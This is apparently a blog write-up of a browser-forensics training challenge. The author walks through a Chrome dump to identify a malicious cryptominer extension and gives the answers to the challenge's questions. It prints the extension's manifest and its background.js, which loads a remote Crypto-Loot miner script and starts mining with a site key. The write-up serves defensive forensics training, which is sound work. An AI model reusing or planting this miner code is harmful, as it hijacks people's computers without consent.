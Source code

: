 ```yaml
---
layout: article
title: Browser Forensics - Cryptominer
aside:
  toc: true
sidebar:
  nav: write-ups
cover: https://cdn.pixabay.com/photo/2020/10/22/01/46/cryptocurrency-5674685_1280.png
permalink: /writeups/browser-crypto-miner
tags:
- BTLO
- Challenges
author: z3f1r0
---
```

## Scenario
Our SOC alerted that there is some traffic related to crypto mining from a PC that was just joined to the network. The incident response team acted immediately, observed that the traffic is originating from browser applications. After collecting all key browser data using FTK Imager, it is your job to use the ad1 file to investigate the crypto mining activity.

## Introduction
First of all, I downloaded "Browser Dump" file and copied it to a Windows VM where it was installed FTK Imager. 

- Here you can download FTK --> [FTK Imager download](https://www.exterro.com/ftk-imager)

Inside "Browser Dump" there are two files:
- **browserdata.ad1**
- **browserdata.ad1.txt**

You have to load **browserdata.ad1** on FTK Imager. I suggest to learn how to FTK Imager works before make the challenge.

When we talk about browser artifacts we talk about, navigation history, bookmarks, list of downloaded files, cache data…etc.
These artifacts are files stored inside of specific folders in the operating system. Each browser stores its files in a different place than other browsers and they all have different names.

## Challenge Submission

### How many browser-profiles are present in Google Chrome?

Profile Path usually is inside **C:\\Documents and Settings\\”USER NAME”\\Local Settings\\Application Data\\Google\\Chrome\\User Data\\Default** and there is another folder with the same structure: **Profile 1**

>2 

### What is the name of the browser theme installed on Google Chrome?

Path where Chrome Extensions are installed:
```text
C:\Documents and Settings\”USER NAME”\Local Settings\Application Data\Google\Chrome\User Data\Default\Extensions
```

In the following path I discovered Theme's name: *C:\\Documents and Settings\\”USER NAME”\\Local Settings\\Application Data\\Google\\Chrome\\User Data\\Default\\Extensions\\iiihlpikmpijdopbaegjibndhpgjmjfe\\1.6_0*

```JSON
{
   "app": {
      "launch": {
         "web_url": "http://atavi.com/browser-themes/?from=chrome-themes&tid=earth_in_space"
      },
      "urls": [ "http://atavi.com/browser-themes/" ]
   },
```

>Earth in Space

### Identify the Extension ID and Extension Name of the cryptominer

Continuing to look inside "Extensions", I discovered the following content inside a *manifest.json* file:

```json
{
   "background": {
      "scripts": [ "background.js" ]
   },
   "description": "Allows staff members to mine cryptocurrency in the background of their web browser",
   "icons": {
      "16": "16.png"
   },
   "key": "MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAp1BrfOdr9hldFysTWVfr6nkuAD8IShanyW+d1kG1J6RKUWOCMQTjNUv2R+K+wz5pvgnrHZfc5jx+rGN1VPgs3VQnYCcFjbe2NXLbLLKkXPATIOLrmMjq7pQAEXu5xuqnRU4AkHumpEX81UD0Vv1TgAi5k1mZLrg5F2B02yXz1tfmMIiqCc/mG7K0/ECNUHXjzi/0B5Ubx3DCZvVSN32H+QvF7lxBnOpgjK9syeHPj4iXiyV9lgiCQjMGe4lKsVJfFT5nAf8tY2BBmna1MtY4LLwV1dIvJ922oFGEs0ty6391RwmC6S0j0oIOdGgQjylZKDREzVw959g/3PGp0lj9BQIDAQAB",
   "manifest_version": 2,
   "minimum_chrome_version": "9",
   "name": "DFP Cryptocurrency Miner",
   "omnibox": {
      "keyword": "DFP Miner"
   },
   "update_url": "https://clients2.google.com/service/update2/crx",
   "version": "3"
}

```

Referring to *description* and *name* we can understand that this is the cryptominer.

> egnfmleidkolminhjlkaomjefheafbbb, DFP Cryptocurrency Miner

### What is the description text of this extension?

> Allows staff members to mine cryptocurrency in the background of their web browser

### What is the name of the specific javascript web miner used in the browser extension?

Opening **background.js** I found the answer.

```js
<script src="https://crypto-loot.com/lib/miner.min.js"></script>
<script>
var miner=new CryptoLoot.Anonymous('b23efb4650150d5bc5b2de6f05267272cada06d985a0',
        {
        threads:3,autoThreads:false,throttle:0.2,
        }
);
miner.start();
</script>
<script>
	// Listen on events
	miner.on('found', function() { /* Hash found */ })
	miner.on('accepted', function() { /* Hash accepted by the pool */ })

	// Update stats once per second
	setInterval(function() {
		var hashesPerSecond = miner.getHashesPerSecond(20);
		var totalHashes = miner.getTotalHashes(256000000);
		var acceptedHashes = miner.getAcceptedHashes();

		// Output to HTML elements...
	}, 1000);
</script>
```

> crypto loot

### How many hashes is the crypto miner calculating per second?

```js
// Update stats once per second
	setInterval(function() {
		var hashesPerSecond = miner.getHashesPerSecond(20);
		var totalHashes = miner.getTotalHashes(256000000);
		var acceptedHashes = miner.getAcceptedHashes();

		// Output to HTML elements...
	}, 1000);
```

>20

### What is the public key associated with this mining activity?

```js
var miner=new CryptoLoot.Anonymous('b23efb4650150d5bc5b2de6f05267272cada06d985a0')
```

### What is the URL of the official Twitter page of the javascript web miner?

Just a Google search.

>twitter.com/CryptoLootMiner


*References*:
- [https://nasbench.medium.com/web-browsers-forensics-7e99940c579a](https://nasbench.medium.com/web-browsers-forensics-7e99940c579a)
- [https://focusinfotech.com/blog/browser-forensics](https://focusinfotech.com/blog/browser-forensics)
- [https://infosecwriteups.com/browser-forsensics-cyptominer-49e5beeb4433](https://infosecwriteups.com/browser-forsensics-cyptominer-49e5beeb4433)
